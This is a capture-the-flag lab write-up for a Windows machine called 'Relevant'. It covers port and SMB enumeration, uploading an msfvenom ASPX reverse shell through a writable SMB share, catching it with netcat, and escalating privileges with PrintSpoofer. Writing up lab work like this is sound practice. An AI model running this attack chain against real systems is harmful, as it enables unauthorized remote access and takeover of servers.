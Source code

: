# Relevant

# Recon
```
nmap -sV IP
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services

nmap -sV -p 0-65353 10.10.82.109
gobuster dir -u http://10.10.82.109/ -w common.txt = No results
enum4linux 10.10.82.109


nmap --script smb-os-discovery.nse -p445 10.10.82.109:


Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-27T22:06:35-07:00

nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse -p445 10.10.82.109    :

Host script results:
| smb-enum-sessions: 
|_  <nobody>
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.82.109\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.82.109\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.82.109\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.82.109\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 78.07 seconds
	
```


smbmap -u nt4wrksv -H 10.10.82.109 -r nt4wrksv (Read the directory)


(Smbmap guide)[https://www.nopsec.com/blog/smbmap-wield-it-like-the-creator/]
smbmap -u nt4wrksv -H 10.10.82.109 -r nt4wrksv -A 'pass'

Bill - REDACTED	
Bob - REDACTED

Bobs & Bill's credentials may be valid but they do not help get into the box.
	

gobuster dir -u http://10.10.82.109/ -w common.txt = No results


After being completely stuck I looked at the offical room walkthrough/the creators youtube video and then realized that there are more than five ports open on the machine...
	
	
nmap -p- 10.10.87.37 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-28 16:44 EDT
Nmap scan report for 10.10.87.37
Host is up (0.22s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown

## Foothold/Exploitation

```
gobuster dir -w common.txt -u http://10.10.223.172:49663/
/aspnet_client        (Status: 301) [Size: 164] [--> http://10.10.223.172:49663/aspnet_client/]
/nt4wrksv             (Status: 301) [Size: 159] [--> http://10.10.223.172:49663/nt4wrksv/]
I modified common.txt from sec lists to include nt4wrksv in the wordlist as the list the author uses is 25,000 lines.
```

Anyway now that we know the nt4wrksv may be linked to the smb directory perhaps we can upload an aspx shell. Asp will not work!
	
```
smbmap -u nt4wrksv -H 10.10.147.160 -r nt4wrksv --upload 'shell.aspx' 'nt4wrksv\shell.aspx'
	
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx
	
smbclient --no-pass //10.10.147.160/nt4wrksv
	
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.21.18 LPORT=4445 -f aspx > testing.aspx
```

nc -nlvp 4445
http://10.10.20.214:49663/nt4wrksv/testing.aspx
Use the browser to run the reverse shell

## Post Exploitation

whoami /priv
^ Hacktricks
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
smb upload printspoofer

The PrintSpoofer exploit in the hacktricks repository did not work. The room creator uploaded the exploit in their repo [PrintSpooler](https://github.com/dievus/printspoofer/)
	

Extract both of the flags & submit!
	
### Things learned:
* Scan all the ports
* The most obvious route might not work
* smb can be used to upload files
